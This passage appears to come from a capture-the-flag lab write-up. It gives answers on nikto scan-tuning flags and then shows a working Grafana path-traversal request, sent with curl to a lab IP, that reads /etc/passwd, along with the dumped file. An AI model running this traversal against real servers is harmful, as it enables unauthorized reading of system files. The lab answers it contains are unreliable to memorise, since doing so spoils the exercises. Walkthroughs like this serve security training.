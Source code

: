 ```bash
:~# nikto -H
...
-Tuning+           Scan tuning:
                               1     Interesting File / Seen in logs
                               2     Misconfiguration / Default File
                               3     Information Disclosure
                               4     Injection (XSS/Script/HTML)
                               5     Remote File Retrieval - Inside Web Root
                               6     Denial of Service
                               7     Remote File Retrieval - Server Wide
                               8     Command Execution / Remote Shell
                               9     SQL Injection
...
```

```bash
:~# nikto -H | grep space
                               6     TAB as request spacer
                               A     Use a carriage return (0x0d) as a request spacer
                               B     Use binary value 0x0b as a request spacer
```

<p>5.1. Nikto, should find an interesting path when the first scan is performed, what is it called?<br>
<code>/login</code></p>

<p>5.2. What value is used to toggle denial of service vectors when using scan tuning (-T) in nikto?<br>
<code>6</code></p>

<p>5.3. Which flags are used to modify the request spacing in nikto? Use commas to separate the flags in your answer.<br>
<code>6,A,B</code></p>

<br>

<h2>Task 6 . Open-Source Intelligence</h2>

<p>6.1. What version of Grafana is the server running?<br>
<code>8.2.5</code></p>

![image](https://github.com/user-attachments/assets/d08c8c2e-408e-4841-ba35-471f60d0a902)

```bash
:~# curl --path-as-is http://10.10.21.185:3000/public/plugins/alertlist/../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
```